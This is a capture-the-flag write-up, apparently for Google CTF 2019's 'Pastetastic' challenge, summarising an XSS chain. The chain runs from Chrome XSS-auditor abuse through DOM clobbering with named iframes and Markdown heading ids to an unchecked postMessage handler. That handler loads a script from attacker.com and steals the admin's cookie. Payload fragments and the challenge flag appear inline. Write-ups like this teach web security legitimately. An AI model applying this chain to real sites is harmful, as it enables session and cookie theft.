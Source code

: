 # TL;DR

This is just a not-that-**quick summary on the important points** / tricks of the challenge for those who worked on the challenge, but got stuck at some point / missed some tricks.

Read the **whole story below** ▼▼▼!

* There is no (known) vulnerability in the third-party libraries ([Prism](https://prismjs.com/) and [Marked.js](https://marked.js.org))
* The admin visit any reported URL, not just the posts on Pastetastic
  * you have to modify the "DMCA" report's HTTP request after the Recaptcha check
* `CONFIG` JS variable can be removed by abusing Chrome's XSS auditor via sending `<script ...>CONFIG=...</script>` as query parameter (e.g. `?PlzRemoveThisCodeForMe=<script>...`)
  * this is possible since Chrome 74 as it switched to `filter` mode by default instead of previous `block`
    * `filter` = removes code, `block` = does not load the website at all
    * admin used Headless Chrome 77
    * more info in this Twitter thread: https://twitter.com/shhnjk/status/1121138947923406848
* `CONFIG` variable can be reintroduced by iframeing the website and modifying the `name` of one of its internal iframes 
  * there is no `X-Frame-Options: DENY` header, so iframeing is possible
  * to modify the `name` of the `iframe` to `CONFIG`, you first have to set the `location` of the `iframe` to a same-origin location (same-origin as `top` frame)
  * `iframes` are available on `window` as properties by their name and `window` properties are visible the same way as global JS variables - read more about [in the specs](https://html.spec.whatwg.org/multipage/window-object.html#document-tree-child-browsing-context-name-property-set)
* You cannot run scripts in the `sandbox` iframe (as its `sandbox` attribute does not include `allow-scripts` value), but Recaptcha also adds two iframes which do not have the `sandbox` attribute set, so they can run scripts
  * so redirect one of Recaptcha's iframe (not the `sandbox` one) and name it as `CONFIG`
* The [Marked library](https://github.com/markedjs/marked/blob/master/lib/marked.js) used for rendering Markdown is able to include `<img>` tag with `src` attribute and adds `id` attribute to heading tags (eg. to `#` -> `h1`)
  * `# ![someName](URL)` will be converted to `<h1 id="someName"><img src="URL" ...></h1>`
  * [here is the code](https://github.com/markedjs/marked/blob/0b7fc5e3420832efc1c8892d9792363a85d199a5/lib/marked.js#L973) which calculates the `id` value (requires `headerIds` to be set to `true`, but this is the default config)
* The website's `postMessage` handling code (`app.js:13`) does not check the `origin` and can be called by untrusted parties (us :P)
* By creating a fake DOM structure (via **DOM Clobbering**) with the help of the tricks described above, it is possible the make [app.js](https://github.com/koczkatamas/gctf19/blob/master/pastetastic/writeup_assets/app.js)'s code to call `loadScripts` with our JS file (which will eval our code and **steal the flag** in the cookie)
  * `this.config = CONFIG.viewer[index];` (`app.js:24`)
    * `CONFIG` is our hijacked Recaptcha iframe pointing to our html file
    * our html file contains `<iframe name="viewer" src="https://pastetastic...com/view/..."></iframe>` which points to a Markdown file
      * this would not work if we used the `sandbox` iframe, as rendering Markdown requires JS, that's why we used one of Recaptcha's iframe
    * `CONFIG.viewer` is the `view` page
    * `CONFIG.viewer[index]` (`index=0`) is the Markdown viewer page's first iframe (so the `sandbox` iframe) and this is where the rendered Markdown is
    * so `this.config` is our rendered Markdown's window
  * for loop on `this.config.dependencies` (`app.js:28`)
    * Markdown "`# dependencies`" was converted to `<h1 id="dependencies">...</h1>`
    * named elements are visible on the window (aka. on `this.config`) - again: [here is the specs](https://html.spec.whatwg.org/multipage/window-object.html#document-tree-child-browsing-context-name-property-set)
    * so `this.config.dependencies` is our `<h1>` tag (in JS it's a `[object HTMLHeadingElement]`)
    * `this.config.dependencies.length` is `undefined` as `HTMLHeadingElement` does not have a `length` property
    * `i < this.config.dependencies.length` is `false` as `0 < undefined == false` in JS
    * so the for loop never runs
  * for loop on `this.config.preload` (`app.js:33`)
    * same as before for `dependencies`
  * `this.loadPlugin(evt.data.lang)` (`app.js:16`)
    * `evt.data.lang` can be anything and is fully controlled by us via `postMessage` call
  * `const spec = this.config.plugins[lang];` (`app.js:53`)
    * Markdown "`# ![plugins](https://attacker.com/expl.js)`" was converted to `<h1 id="plugins"><img src="https://attacker.com/expl.js" ...></h1>`
    * `this.config.plugins` is the `<h1>` tag
    * set `lang` to `firstElementChild`
    * `this.config.plugins[lang]` is `h1`'s `firstElementChild`, so the `<img>` tag
    * `spec.requires` (`app.js:54`) is `undefined` as `HTMLImageElement` does not have an `requires` property, so this `if` is ignored
  * `this.loadScript(spec);` (`app.js:59`)
    * so `spec` is the `<img>` tag (`HTMLImageElement`)
    * `spec.integrity` (`app.js:68`) is `undefined` as `HTMLImageElement` does not have an `integrity` property, so this `if` is ignored
    * `fetch(spec.src, params)` (`app.js:71`) fetches the `<img>` tag's `src` attribute which is our exploit's URL
      * CORS should be considered, so the JS file should be served with the following headers:
        * `Access-Control-Allow-Origin: *`
        * `Access-Control-Allow-Methods: GET`
* Flag in admin's browser was only available via HTTPS (`secure` flag in set on cookie)
  * so use HTTPS websites for each steps, not to run into mixed content errors

**The flag:** `CTF{694435c0074e860b24cad51f584d0d30}`

# Story

... TODO ...